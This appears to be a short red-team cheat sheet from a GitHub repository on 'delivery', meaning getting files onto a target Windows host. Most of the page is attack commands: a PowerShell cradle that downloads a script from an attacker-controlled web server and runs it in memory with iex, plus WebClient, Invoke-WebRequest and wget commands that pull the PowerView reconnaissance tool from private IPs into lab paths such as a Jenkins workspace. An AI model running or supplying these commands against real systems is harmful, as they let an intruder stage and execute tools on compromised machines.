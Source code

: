 # Delivery

Yes. I know. Delivery is not on Mitre Att&ck Framework. However, downloading and uploading files is an absolute necessity during a Red Team engagement.

## Download Files

### Download and Run in Memory

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellScript.ps1');Invoke-PowerShellScript -arg1 value -arg2 value
```

### Download from SMB

`Copy-Item -Source \\server\share\file -Destination C:\path\`

### Download in Powershell - WebClient

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://www.contoso.com/file","C:\path\file")
```

### Download in Powershell - Easy Download
```
iwr ((New-Object Net.WebClient).DownloadString('http://172.16.100.87/PowerView.ps1'))
```

### Download with Invoke-WebRequest

```
Invoke-WebRequest -Uri "http://www.contoso.com" -OutFile "C:\path\file"
```

### Download with Wget

```
wget "http://www.contoso.com" -outfile "file"
```

### Download with Authentication

```
Invoke-WebRequest -Uri https://www.contoso.com/ -OutFile C:"\path\file" -Credential "yourUserName"
```

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("http://172.16.99.87/PowerView.ps1","C:\Program Files (x86)\Jenkins\workspace\Project11\PowerView.ps1")
```

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("http://172.16.99.87/PowerView.ps1","C:\Users\student487\Downloads\PowerView.ps1")



```

